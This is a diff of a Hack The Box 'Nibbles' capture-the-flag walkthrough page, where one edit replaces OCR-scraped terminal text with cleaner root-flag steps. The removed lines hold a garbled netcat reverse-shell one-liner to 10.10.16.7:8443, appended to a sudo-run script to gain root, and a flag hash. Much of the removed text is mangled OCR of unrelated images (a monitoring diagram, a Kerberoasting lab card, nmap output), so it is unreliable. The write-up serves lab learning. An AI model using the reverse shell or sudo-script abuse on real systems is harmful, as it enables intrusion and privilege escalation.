

Before and after one commit to mohamed-gaber0/WRITEUPS.github.io, a Markdown page: HTB Nibbles Machine Walkthrough_ From Web Exploit to Root _ by MOGS _ Aug, 2026 _ Medium.md, the part around one of its changes. Shown at 92% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/HTB Nibbles Machine Walkthrough_ From Web Exploit to Root _ by MOGS _ Aug, 2026 _ Medium.md
+++ b/HTB Nibbles Machine Walkthrough_ From Web Exploit to Root _ by MOGS _ Aug, 2026 _ Medium.md
@@ -109,19 +73,20 @@ nc-lvnp8443
 
-```
 sudo /home/nibbler/personal/stuff/monitor.sh
-```
 
-https://medium.com/@0xMOGS/htb-nibbles-machine-walkthrough-from-web-exploit-to-root-a2cc34abd401
+![](https://cdn-images-1.medium.com/max/800/1*5U3-9sw_-KAt8liqhe1F9g.png)
 
-7/12
+### Step 4: Capturing the Flags (Root)
 
-li e¢ ve
+After successfully intercepting the new reverse shell from the victim machine, you will have root access. The only thing left to do is retrieve the flags.
 
-OO
+1.  Find the root flag file:
 
-<mark>3</mark> :: §sl fbin/sh: 2: sl: not found $ ls personal.zip user. txt $ Unzip personal.zip Archive: personal.zip creating: personal/ creating: personal/stuft/ inflating: personal/stuff/monitor. $ SL sh /bin/sh: 5: sl: not found $ SL fbin/sh: 6: sl: not found $ Ls personal personal.zip user. txt
+find / -name root.txt 2\>/dev/null
 
-$ cd personal/stuff $ sl fbin/sh: 9: sl: not found $ 1s monitor.sh $ echo ‘rm /tmp/fimkfifo /tmp/fjcat /tmp/fl/bin/sh -i 2>51|nc 10.10.16.7 8443 >/tmp/f* | tee =a Monitor.sh rm /tmp/fymkfifo /tmp/fjcat /tmp/fl]/bin/sh -1 2>51|/nc 10.10.16.7 8443 >/tmp/f $ sudo /home/nibbler/personal/stuff/monitor.sh
+2\. Read both flags:
 
+cat /home/nibbler/user.txt cat /root/root.txt
 
+cat /home/nibbler/user.txt
+cat /root/root.txt
 
@@ -128,47 +94,3 @@ $ cd personal/stuff $ sl fbin/sh: 9: sl: not found $ 1s monitor.sh $ echo ‘rm
 
+By [MOGS](https://medium.com/@0xMOGS) on [August 5, 2026](https://medium.com/p/a2cc34abd401).
 
-
-
-root@Nibbles:/home/nibbler# find / -name root.txt 2>/dev/null find / -name root.txt 2>/dev/nuLll froot/root.txt root@Nibbles: /home/nibbler# root@Nibbles: /home/nibbler# root@Nibbles: /home/nibbler# root@Nibbles: /home/nibbler# root@Nibbles: /home/nibbler# root@Nibbles: /home/nibbler# root@Nibbles: /home/nibbLler# root@Nibbles:/home/nibbler# cat root.txt cat root.txt cat: root.txt: No such file or directory root@Nibbles:/home/nibbler# cat /root/root.txt cat froot/root.txt de5e5d6619862a8aa5b9b212314e0cdd root@Nibbles:/home/nibbler# Jj
-
-
-
-++ ++
-
-
-
-
-
-
-
-
-
-<!-- Start of picture text -->
-PROCESSES Process5 aux | topManagement| top| nice & MonitoringI venice | i andIdentityconsuming abnormal high processes CPUbehavier/ Memory | oe {iptablesFirewall / firewalls)<br>t @ SELinux / AppArmor<br>O SERVICES Service Management aa<br>(SVSTEMD) systemetl status | start | stop | restart | enable jeenins, ete. K Fae Permissions<br>+ |<br>> avpuicarion Applications / Workloads ‘Application heath, logs, [=]<br>up TaveR config, dependencies,<br>Web Server | API | Worker | DB | CCD Agent ‘external integrations<br>Logs + 403 connie « vePenoencies<br>ia bed FILE SYSTEM Nvarilog | “~journalct!& File System.| dmesg | app logs ReviewwarningsCheck disk logsand usage foranceaties errors, and | EnvironmentConfigurationVariables Files<br>File integrity | Permissions file permissions Secrets / Certificates<br>- External Services<br>—————_ OBSERVABILITY & rMONITORING -<br>++ hrariegLocsfournatet! & ++ €PU/METRICSNetwork Memoryin(CloudWatch)/ Out/ Disk AFeetALERTSNOTIFICATIONS.&  ttn See STORAGEens /ers/s3 & DATA<br><!-- End of picture text -->
-
-
-
-<!-- Start of picture text -->
-MANAG ER y, c NO uo= (Hock2skiAPACCohort Edition”=3GoogeTack 3Cloud)<br>>) : bd<br>Al age , ae :<br>nends the right vt ; ile — J<br>‘ \<br>B fee)<br>}<br>= ae . a “><br>) 4 Aun -d « — tine _—f i Mima) /(<br>2 (<br>ye \ +<br><i —— = —,1 ate ij<br>a@ er hast tneheog<br>eo Ser bas |<br>. LP tower<br><!-- End of picture text -->
-
-y
-
-i
-
-)
-
-CP awe
-
-
-
-
-
-<!-- Start of picture text -->
-Kerberoasting=<br>Analyze h<br> the kerberoasting as DFIR analyst.<br>Your Progress 100%<br>____<br><!-- End of picture text -->
-
-POfnmap.ore10,129,117) at 2026-07-02.93 13:22 +0530 F up on port because retransmission cap hit (10). sendta(4, packet, 44, @, 10.129.112.93, 16) => Operation net permi 4.35:49978 > 10.129.112.93:6422 5 ttl=56 id=45411 iplen=44 seq=9 hth (108.129.112.923) ports (reset), 30060 filtered tcp ports (no-response) pst up): scanned :in 72.84 seconds
-
-
-
-
-
````
Also changed, not shown: other parts of HTB Nibbles Machine Walkthrough_ From Web Exploit to Root _ by MOGS _ Aug, 2026 _ Medium.md (+43 -92 lines).
